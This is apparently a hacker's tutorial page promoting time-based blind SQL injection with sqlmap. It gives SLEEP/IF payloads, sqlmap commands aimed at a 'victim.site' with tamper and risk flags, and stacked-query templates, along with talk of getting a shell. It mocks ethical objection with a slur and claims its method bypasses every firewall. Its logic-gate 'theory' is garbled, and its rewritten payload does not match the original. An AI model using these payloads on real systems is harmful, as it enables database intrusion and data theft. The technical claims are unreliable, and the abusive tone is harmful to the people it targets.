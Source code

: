 # 💉 SQLmap (OP as fuck)

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>Picture of SQLmap</p></figcaption></figure>

CYANIDE: "We pwn databases and slay all the data 🤫🤫✨&#x20;

Incel retard: "Nooo we cannot do that its unethical"&#x20;

CYANIDE: "Router offline?? LULZZ😴😴"

{% embed url="https://cdn.discordapp.com/attachments/1156957811977228459/1226571709541515304/Desktop_2024.04.07_-_18.34.48.02_1.mp4?ex=662e7b6c&hm=d15fe05473cde344efcfb107bfd375d2aeeb9a4e3a790a3c636f6b20e7c03047&is=661c066c" %}
Example of me (**Cyanide/H3ll0k1tty**) getting databse accesss doing SqlMAP INJECTIONZZZ in Base64 Encoding (u can use my theory below to do this as well lolz lolz lolz)
{% endembed %}

**200 IQ custom** theory that slay asf (legit if you can't bypass with this method then there is 0% SQL injection anywayz)

So complex theory as you can see in the picture below this is about logical gates and how the CPU works deep down but im going to be quick and tell you that this is bascially 0s and 1s.. but the reason this is so OP for sqlmap is because everything in the whole PC is made of 0s and 1s thanks to alan turing theory we can create anything thats turing-passable with in binary.

<figure><img src=".gitbook/assets/image (1).png" alt="" width="375"><figcaption></figcaption></figure>

So here is the next slay step...  which is the OP method as we can see **ChatGPT** has verified my theory, we can use the and the "AND" logical gates combined with the "Inverted" logical gate, (**we dont** even need "OR" gate)&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt="" width="563"><figcaption></figcaption></figure>

For example look at this **SQL injection code uwu**

```
(SLEEP(10-(IF(16=16,0,10))))
```

If we look closely we can see that and IF statement is being used we can make the same functionality with my 200 iq method by using logical gates, this is basically the same as the statement above and will bypass every WAF or firewall, if it doesn't you can try with SQLmap --tampers to url encode or use pure parantheses to not include spaces in the URL: \


```
(SELECT(SLEEP(10 - ((NOT(NOT(16=16)) AND 0) AND (NOT(TRUE) AND 10))))
```

```markdown
Here are some extra tings to remeber,...
- **H4ck1ng SQL 101**: `sqlmap -u "victim.site" --tampers=space2comment` for that sneaky attazck 
- **S3cr3t Modes Activate**: Add `--level=5 --risk=3` to go full beast mode on that database


```

You can include my pro haxxor method of "NOT" and "Inverted" + "AND" logical gate in your SQLmap payloads:\


MySQL >= 5.0.12 stacked queries (comment) 4 2 1 1-8 1 ;SELECT IF((\[INFERENCE]),SLEEP(\[SLEEPTIME]),\[RANDNUM]) ;SELECT SLEEP(\[SLEEPTIME]) # \[SLEEPTIME]&#x20;

MySQL >= 5.0.12

```
<test>
    <title>MySQL &gt;= 5.0.12 stacked queries</title>
    <stype>4</stype>
    <level>3</level>
    <risk>1</risk>
    <clause>1-8</clause>
    <where>1</where>
    <vector>;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
    <request>
        <payload>;SELECT SLEEP([SLEEPTIME])</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version>&gt;= 5.0.12</dbms_version>
    </details>
</test>
```



or you can use it as a tamper as a python script  in sqlmap:

#### if possibel stacking SQL Queries in MySQL to maybe get full shell and full server access (Remote code execution)

#### Stacked let you execute multiple SQL statements in a single database request.&#x20;

#### This method is works in MySQL version 5.0.12 and later....  multiple statements can be executed simultaneously if you seperate them them with a semicolon (`;`).





Example of stacked query, this is in payloads xml from SQLMap btw

```xml
<vector>;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
```

This payload uses the `IF` statement to check a condition (`[INFERENCE]`), and based on maybe it delays the response using `SLEEP([SLEEPTIME])` or it will gen random number (`[RANDNUM]`). This allows us to know if the inejection worked based on sleep time from burpsuite or something



```xml
<request>
    <payload>;SELECT SLEEP([SLEEPTIME])</payload>
</request>
```



\
Anyways my pro sophisticated method is as pure as a computer can come because of logical.. making it almost impossible for firewalls or other security to detect the attempts.&#x20;

By using logical operations ('AND', 'NOT') we can make the most stealthy and most "bypassable" method for SQL injection attacks.





H3ll0K1tty aka CYANIDE on TOP BTW too smart for this shiiii
